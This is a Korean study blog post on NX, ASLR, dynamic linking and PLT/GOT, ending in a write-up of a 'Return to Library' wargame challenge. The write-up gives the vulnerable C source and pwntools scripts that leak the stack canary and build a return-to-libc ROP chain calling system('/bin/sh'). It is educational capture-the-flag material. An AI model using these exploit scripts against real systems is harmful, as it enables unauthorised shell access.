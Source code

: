 ```yaml
---
title: NX, ASLR 학습
published: 2025-09-04
author: siaa
description: 'NX, ASLR, 라이브러리를 배우고 "Return to Library" 문제를 풀었어요'
image: ''
tags: ["Pwn"]
category: 'PWN'
draft: false
---
```

## 1. **NX** (No-eXexute)
   **정의**: 실행에 사용되는 메모리 영역과 쓰기에 사용되는 메모리 영역을 분리하는 보호기법
   **확인 방법**: `checksec`을 이용하면 **NX**가 적용되었는지 확인 가능
   즉, NX가 적용되었다면 직접 올린 셸코드를 사용할 수 없다.

## 2. **ASLR** (Addreaa Space Layout Randomization)
   **정의**: 바이너리가 실행 될 때마다 스택, 힙, 공유 라이브러리 등을 임의의 주소에 할당하는 보호 기법
   **특징**
       - main함수를 제외한 다른 영역의 주소는 실행할 때마다 변경됨 (PIE 적용 x)
       - libc_base 주소 하위 12 비트 값과 printf 주소 하위 12비트의 값은 항상 같음 
       - 리눅스는 페이지 단위로 임의 주소에 매핑함, 12비트 이하로는 주소 변경이 안됨
       - libc_base와 printf, read 의 주소 차이는 항상 같음

## 3. **라이브러리**
   **정의**: 컴퓨터 시스템에서 함수나 변수를 공유해 사용할 수 있도록 함
   **장점**: 같은 함수를 반복적으로 정의할 필요가 없어 개발 효율이 높아짐
   C언어 표준 라이브러리로는 **libc**이 있으며 우분투에 탑제 되어있다.

## 4. **링크**
   **정의**: 컴파일의 마지막 단계
   **역할**: 심볼과 관련된 정보들을 찾아서 최종 파일에 기록하는 일을 함
   **종류**
       - 동적링크: 실행 파일이 작지만 실행 중 라이브러리가 필요하며, 실행 -> 메모리에 매핑 -> 함수 주소 찾기 -> 실행순으로 진행됨
       - 정적링크: 실행 파일이 크지만, 실행 속도가 빠르고 외부 라이브러리 필요 없음

## 5. **PLT**와 **GOT**
   **정의**: 라이브러리에서 동적 링크 된 심볼의 주소를 찾을 때 사용되는 테이블
   **runtime resolve**: 라이브러리 함수 호출 -> 라이브러리에서 심볼 탐색 -> 함수의 정의 발견 -> 그 주소로 실행 흐름 옮기는 과정
   **GOT**: resolve된 함수의 주소를 저장하는 테이블
   => 그러나 PLT에서 GOT를 참조하여 실행흐름을 옮길때 GOT값을 검증하지 않기에 GOT의 값을 임의로 변경하면 원하는 코드를 실행시킬 수 있다.

## 6. 푼문제
   NX, ASLR, 라이브러리를 배우고 "Return to Library" 문제를 풀었다.
   다음은 문제이다.
```C
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt'");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```
   7행을 보면 `const char* binsh = "/bin/sh";`가 있는데 이는 **"/bin/sh"**을 바이너리에 추가하기 위한 코드이다.
   16행을 보면 `system("echo 'system@plt'");`가 있는데 이는 **system 함수**를 PLT에 추가하기 위한 코드이다.
   **"/bin/sh"**의 주소와 **system 함수**의 주소를 알기에 rdi가 "/bin/sh"인 상태로 system함수를 호출하면 문제를 풀 수 있다.
   <br>

   GDB에서 `checksec`을 쳐서 카나리가 있는 것을 확인 했다.
   ```
   pwndbg> checksec
   File:     /home/siaa/dreamhack/Return_to_Library/rtl
   Arch:     amd64
   RELRO:      Partial RELRO
   Stack:      Canary found
   NX:         NX enabled
   PIE:        No PIE (0x400000)
   Stripped:   No
   ```
   <br>
   
   우선 카나리를 우회하기 위해 첫번째 입력에서 카나리를 얻었다.
   ```py
   from pwn import*
   p = process("./rtl")
   p.sendlineafter('Buf: ',b'A' * 56)
   k = p.recvuntil(b'\n')
   c = b'\x00' + p.recvn(7)
   print(c)
   ```
   <br>
   
   그리고 rdi값을 "/bin/sh"의 주소로 바꾸고 system함수를 호출했다.
   리턴 가젯을 사용하면 rdi를 pop한 후 "/bin/sh"주소로 바꾸고 system함수를 호출할 수 있다.
   이때 system 함수로 rip가 이동할 때는 항상 스택이 0x10단윌 정렬 되어있어야 한다.
   ```py
   from pwn import*
   p = process("./rtl")
   e = ELF('./rtl')

   # canary
   p.sendlineafter('Buf: ',b'A' * 56)
   k = p.recvuntil(b'\n')
   c = b'\x00' + p.recvn(7)
   print(c)
   a = b'\x00' * 56 + c + b'\x00' * 8

   # payload
   system_plt = e.plt['system']
   binsh = 0x400874 # /bin/sh 주소
   pop_rdi = 0x0000000000400853
   ret = 0x0000000000400596
   a = a + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system_plt)
   
   p.sendlineafter(b'Buf: ',a)
   p.interactive()
   ```
   이렇게 했더니 문제가 풀렸다.
